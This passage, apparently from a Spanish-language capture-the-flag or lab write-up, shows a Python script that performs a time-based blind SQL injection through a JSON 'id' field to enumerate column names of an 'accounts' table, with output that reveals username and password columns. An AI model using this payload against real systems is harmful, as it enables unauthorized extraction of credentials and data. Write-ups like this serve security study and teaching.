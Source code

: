 ```python
            response = True
            global columns
            global let
            columns += let
            p2.status(columns)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Columns: ")
    time.sleep(2)
    for position in range(1,200):
        for letter in letters:
            let = letter
            payload = f"or if(substr((select group_concat(column_name) from information_schema.columns where table_name='accounts'),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

Después de un buen rato, obtenemos el siguiente resultado:

```bash
python3 tables.py 
[▇] SQLI: {"id":"1 or if(substr((select group_concat(column_name) from information_schema.columns where table_name='accounts'),99,1)='m',sleep(2),1)"}
[█] Columns: user,host,current_connections,total_connections,max_session_controlled_memory,max_session_total_memory,id,email,username,password
```

Las columnas encontradas son:

* user
* host
* current_connections
* total_connections
* max_session_controlled_memory
* max_session_total_memory
* id
* email
* username
* password
